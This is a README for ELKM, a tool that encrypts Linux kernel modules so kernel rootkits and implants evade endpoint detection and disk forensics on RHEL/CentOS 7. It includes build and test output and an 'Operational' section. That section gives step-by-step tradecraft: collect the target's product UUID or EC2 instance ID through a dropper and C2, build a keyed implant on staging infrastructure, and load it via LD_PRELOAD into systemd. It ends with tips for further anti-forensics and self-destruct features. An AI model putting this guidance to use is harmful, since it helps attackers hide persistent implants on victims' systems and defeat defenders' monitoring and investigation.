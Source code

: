 # ELKM: Encrypted Linux x86-64 Loadable Kernel Modules

ELKM provides a mechanism to securely transport and load encrypted Loadable
Kernel Modules (LKM). The aim is to protect kernel-based rootkits and implants
against observation by Endpoint Detection and Response (EDR) software and to
neutralize the effects of recovery by disk forensics tooling.


## RHEL/CentOS 7 

ELKM was specifically written for RHEL/CentOS 7 x86-64.

```
kernel-tools-libs-3.10.0-1127.18.2.el7.x86_64
kernel-devel-3.10.0-1127.18.2.el7.x86_64
kernel-tools-3.10.0-1127.18.2.el7.x86_64
kernel-headers-3.10.0-1127.18.2.el7.x86_64
kernel-3.10.0-1127.18.2.el7.x86_64
```


### Prepare build environment
```
sudo yum install glibc-static -y
sudo yum install kernel-devel -y
sudo yum install kernel-headers -y
sudo yum install openssl-devel -y
sudo yum install libcurl-devel -y
```


### Local automated testing

The test script performs 4 tests:
* Password provided via /sys/class/dmi/id/product_uuid
* Password provided via http://169.254.169.254/latest/meta-data/instance-id (when on EC2)
* Password provided via the environment
* Password provided via stdin

```
$ make
$ sudo ./test.sh
make -C /lib/modules/3.10.0-1127.13.1.el7.x86_64/build M=/home/test/encrypted-kernel-modules clean
make[1]: Entering directory `/usr/src/kernels/3.10.0-1127.13.1.el7.x86_64'
  CLEAN   /home/test/encrypted-kernel-modules/.tmp_versions
  CLEAN   /home/test/encrypted-kernel-modules/Module.symvers
make[1]: Leaving directory `/usr/src/kernels/3.10.0-1127.13.1.el7.x86_64'
rm -f loader.so
rm -f payloadfuser
make -C /lib/modules/3.10.0-1127.13.1.el7.x86_64/build M=/home/test/encrypted-kernel-modules modules
make[1]: Entering directory `/usr/src/kernels/3.10.0-1127.13.1.el7.x86_64'
  CC [M]  /home/test/encrypted-kernel-modules/kernel-module.o
  Building modules, stage 2.
  MODPOST 1 modules
  CC      /home/test/encrypted-kernel-modules/kernel-module.mod.o
  LD [M]  /home/test/encrypted-kernel-modules/kernel-module.ko
make[1]: Leaving directory `/usr/src/kernels/3.10.0-1127.13.1.el7.x86_64'
gcc -o loader.so loader.c -fPIC -shared -ldl -lcrypto -Wall
gcc -o payloadfuser payloadfuser.c -lcrypto -Wall
strip --strip-unneeded kernel-module.ko
strip --strip-unneeded loader.so
strip payloadfuser
--------------------------------------------------------------------------------
stage 1: fusing './kernel-module.ko' payload with './loader.so' using './payloadfuser':
main(): encrypting './kernel-module.ko' with password '07EC86F1-957C-6B4E-9134-7A6DE5ACC99C', and fusing with './loader.so'

stage 2: executing './loader.so':

module loaded: YES
unloading

--------------------------------------------------------------------------------
stage 1: fusing './kernel-module.ko' payload with './loader.so' using './payloadfuser':
main(): encrypting './kernel-module.ko' with password 'TEST-ENV-KEY', and fusing with './loader.so'

stage 2: executing './loader.so':

module loaded: YES
unloading

--------------------------------------------------------------------------------
stage 1: fusing './kernel-module.ko' payload with './loader.so' using './payloadfuser':
main(): encrypting './kernel-module.ko' with password 'TEST-STDIN-KEY', and fusing with './loader.so'

stage 2: executing './loader.so':

module loaded: YES
unloading

```


### Build, and manually create test payload
```
make
./payloadfuser ./kernel-module.ko ./loader.so dummykey
FOO=dummykey LD_PRELOAD=./loader.so /usr/lib/systemd/systemd
```


### Operational

#### Tying ELKM to a specific system

##### Via product_uuid

On the target system:
```
cat /sys/class/dmi/id/product_uuid
```

Note: this should be done in an automated manner, e.g. via a dropper. TX the
product_uuid to the staging infrastructure via C2.


On the staging infrastructure:
```
./payloadfuser ./implant.ko ./loader.so $uuid
```

On the target system download the loader from the staging infrastucture, and
execute it via a trusted executable:
```
LD_PRELOAD=./loader.so /usr/lib/systemd/systemd
```

##### Via EC2 instance ID

On the target system:
```
curl http://169.254.169.254/latest/meta-data/instance-id
```

Note: this should be done in an automated manner, e.g. via a dropper. TX the
instance ID to the staging infrastructure via C2.

On the staging infrastructure:
```
./payloadfuser ./implant.ko ./loader.so $instanceid
```

On the target system download the loader from the staging infrastucture, and
execute it via a trusted executable:
```
LD_PRELOAD=./loader.so /usr/lib/systemd/systemd
```


#### To set the password for use with environment or interactive shell

On the staging infrastructure:
```
./payloadfuser ./implant.ko ./loader.so PASSWORD
```

On the target system, via the environment:
```
# FOO=PASSWORD LD_PRELOAD=./loader.so /usr/lib/systemd/systemd
#
```

Or via stdin:
```
# LD_PRELOAD=./loader.so /usr/lib/systemd/systemd
THISISMYINTERACTIVEPASSWORD
#
```


#### Tips

Some tips if you want to deploy ELKM operationally:

* Do not compile with 'debug'
* Change the function names
* Implement more antifor techniques
* Consider replacing OpenSSL with another crypto library
* Implement a self destruct mode when passwords fail

We chose not to implement these features to avoid fingerprinting.
